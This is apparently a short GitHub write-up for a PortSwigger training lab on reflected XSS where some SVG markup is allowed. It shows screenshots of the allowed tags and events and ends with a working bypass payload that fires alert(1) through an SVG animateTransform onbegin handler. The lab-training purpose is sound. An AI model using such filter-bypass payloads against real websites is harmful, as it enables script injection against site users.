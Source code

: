# Python script for the lab: Reflected XSS with some SVG markup allowed

![image](https://github.com/sabarish20/PortSwigger-Labs/assets/85452305/64e16641-7f53-4edc-8388-99c668b037a4)

Tags allowed:
![image](https://github.com/sabarish20/PortSwigger-Labs/assets/85452305/2660e27e-2ec6-40d6-8814-2f9454d482e0)

Events allowed:
![image](https://github.com/sabarish20/PortSwigger-Labs/assets/85452305/6a58089c-6efc-4923-b981-76cc561ce27d)

Final Payload:
```
<svg><animateTransform onbegin="alert(1)"/></svg>
```

